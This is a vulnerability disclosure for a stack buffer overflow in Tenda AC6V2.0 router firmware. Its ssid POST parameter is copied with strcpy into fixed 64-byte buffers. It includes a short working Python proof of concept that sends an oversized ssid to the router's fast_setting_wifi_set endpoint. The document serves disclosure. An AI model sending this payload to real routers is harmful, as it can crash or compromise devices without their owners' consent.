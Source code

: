 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "form_fast_setting_wifi_set"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the `form_fast_setting_wifi_set` function, a user-crafted POST request can pass the **`ssid` variable** to the backend. Inside the function, **`strcpy` is used directly to write this variable into the stack-allocated buffers `ssid_24g[64]` and `ssid_5g[64]` without any prior validation**. This easily leads to a **stack overflow**.

![image-20250618165329584](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618165329584.png)

poc

```
import requests
def send_payload(url, payload):
    params={
            'ssid':payload
            }
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x2000+b'\n'
url="http://192.168.1.1/goform/fast_setting_wifi_set"
send_payload(url, payload)   
```

![image-20250618165436040](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618165436040.png)